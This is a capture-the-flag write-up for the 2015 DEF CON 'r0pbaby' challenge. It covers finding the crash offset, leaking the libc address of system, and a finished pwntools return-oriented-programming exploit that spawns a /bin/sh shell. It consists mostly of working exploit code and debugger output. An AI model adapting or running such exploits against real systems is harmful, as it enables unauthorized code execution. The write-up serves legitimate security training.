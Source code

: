 # 2015_defcon_r0pbaby
## simple rop
Find the crash offset first

```python
print(flat(cyclic(n = 8, length = 100)))
```
```b'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'```

```
gdb ./r0pbaby
pwndbg> r
Starting program: /root/ctf/t/1/r0pbaby

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 3
Enter bytes to send (max 1024): 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

00:0000│ rsp  0x7fffffffe3b8 ◂— 0x6161616161616162 ('baaaaaaa')

pwndbg> cyclic -n 8 -l baaaaaaa
8
```

write basic framework and get the system address
```python
from pwn import *

p = process('./r0pbaby')

context.binary = './r0pbaby'
elf = context.binary
libc = elf.libc

p.sendlineafter('Exit\n: ', '2')
p.sendlineafter('Enter symbol: ', 'system')
system_addr = int(p.recvline().decode().split(' ')[-1], 16)
print('system @ {:#x}'.format(system_addr))

payload = 'A' * 8
p.sendline('3')
p.sendlineafter('(max 1024): ', str(len(payload)))
p.sendline(payload)

p.interactive()
```

use rop
```
root@16:~/ctf/t/1# ldd r0pbaby
 linux-vdso.so.1 =>  (0x00007fff6e9c6000)
 libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fc3c25ab000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc3c21e1000)
 /lib64/ld-linux-x86-64.so.2 (0x00007fc3c29b2000)
 
root@16:~/ctf/t/1# file /lib/x86_64-linux-gnu/libc.so.6
/lib/x86_64-linux-gnu/libc.so.6: symbolic link to libc-2.23.so

root@16:~/ctf/t/1# ROPgadget --binary /lib/x86_64-linux-gnu/libc-2.23.so --only 'pop|call'
0x00000000001074d9 : pop rax ; pop rdi ; call rax
```

finish exp
```python
from pwn import *

p = process('./r0pbaby')

context.binary = './r0pbaby'
context.log_level = 'critical'
elf = context.binary
libc = elf.libc

libc_pop_rax_pop_rdi_call_rax = 0x1074d9
libc_system = libc.sym['system']
libc_binsh = next(libc.search(b'/bin/sh'))

p.sendlineafter('Exit\n: ', '2')
p.sendlineafter('Enter symbol: ', 'system')
system_addr = int(p.recvline().decode().split(' ')[-1], 16)
print('system @ {:#x}'.format(system_addr))

libc.address = system_addr - libc_system
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0

payload = b'A' * 8
payload += p64(libc.address + libc_pop_rax_pop_rdi_call_rax)
payload += p64(system_addr) + p64(libc.address + libc_binsh)
p.sendline('3')
p.sendlineafter('(max 1024): ', str(len(payload)))
p.sendline(payload)

p.interactive()
```
